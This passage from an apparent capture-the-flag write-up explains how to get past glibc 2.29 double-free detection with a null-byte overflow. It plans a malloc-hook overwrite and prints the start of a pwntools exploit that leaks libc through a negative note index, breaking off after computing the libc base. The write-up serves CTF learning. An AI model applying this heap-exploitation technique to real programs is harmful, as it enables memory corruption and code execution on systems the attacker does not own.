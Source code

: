 ```
Note index: 0
free(): double free detected in tcache 2
Aborted
```

## Using a Null-Byte Overflow to Avoid Double-Free Detection

In order to avoid double-free detection in libc 2.29, I can use the null-byte overflow to change the size of my bin between frees. The basic idea is:

*1:* Allocate two chunks, the first of which's size should be designed to allow a null byte overflow (i.e. it should equal 8 modulo 16), and the second of which's size should be in the triple digits when represented in hexadecimal. I went for 0x108, which went in a 0x110-sized bin

*2:* Free the second chunk. It should go into a tcache bin.

*3:* Free the first chunk, then allocate a new chunk of the same size so that it will be placed in the same position on the heap, directly before my free second chunk.

*4:* Fill that re-allocated first chunk and overflow the now-freed second chunk's size with a null. The chunk should now be in a 0x100 bin.

*5:* Now free the second chunk again. We have a double free, and it isn't detected.

So, now we have a double free, which gives us an arbitrary read. We can combine this with the array index read bug to overwrite values in libc, so we can overwrite the malloc hook with a onegadget.

Here is the final payload:
```
from pwn import *

target = process('./chall')

pid = gdb.attach(target, "\nb *add_note+250\nb *remove_note+102\nb *view_note+179\ncontinue")
#target = remote('pwn.chal.ctf.gdgalgiers.com', 1405)


def add_note(size, content):
	print(target.recvuntil(b'Enter an option:'))
	target.sendline(b'1')
	print(target.recvuntil(b'Size:'))
	target.sendline(str(size))
	print(target.recvuntil(b'Note content:'))
	target.send(content)
	
def remove_note(index):
	print(target.recvuntil(b'Enter an option:'))
	target.sendline(b'2')
	print(target.recvuntil(b'index:'))
	target.sendline(str(index))

def view_note(index):
	print(target.recvuntil(b'Enter an option:'))
	target.sendline(b'4')
	print(target.recvuntil(b'Index:'))
	target.sendline(str(index))

libc = ELF('libc.so.6')
#Get my libc leak
view_note(-17)
print(target.recvuntil(b'located at: '))
leak = target.recv(14)
atoi = int(leak, 16)
print(hex(atoi))
libc_base = atoi - libc.symbols['atoi']
```